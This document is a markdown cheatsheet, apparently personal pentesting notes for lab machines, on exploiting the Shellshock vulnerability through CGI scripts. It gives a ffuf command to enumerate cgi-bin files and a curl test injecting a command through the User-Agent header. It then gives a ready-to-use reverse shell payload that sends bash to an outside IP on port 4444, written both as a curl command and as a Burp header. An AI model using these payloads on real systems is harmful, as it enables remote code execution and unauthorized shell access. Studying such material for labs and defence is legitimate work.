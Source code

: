 ```yaml
---
title: Cheatsheet - Shellshock 
categories: [Cheatsheet, Web]
tags: [cheatsheet/web, exploit/shell-shock]
img_path: /Cheatsheet/Web/Shellshock via cgi-bin/images
---
```



# Enumerate CGI files
```
ffuf -u http://<IP>/cgi-bin/FUZZ -w /usr/share/wordlists/dirb/common.txt -e '.cgi,.pl,.sh,.ps1,.py,.php,.php3,.exe,.bat,.dll,.vts,.cfg'
```


# Test
```
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://<MACHINE-IP>/cgi-bin/test.cgi
```

# Exploit
- Obtain shell
	```
	curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.4.53.197/4444 0>&1' http://10.10.234.83/cgi-bin/test.cgi

	#Burp:
	User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.4.53.197/4444 0>&1
	```

# Some Example
- [TryHackMe 0day - Initial Foothold via ShellShock](https://youtu.be/TS_yfDqr_3s?t=1052)
- [HackTheBox Shocker - Initial Foothold via ShellShock](https://yufongg.github.io/posts/Shocker/#tcp80-http---shell-shock)


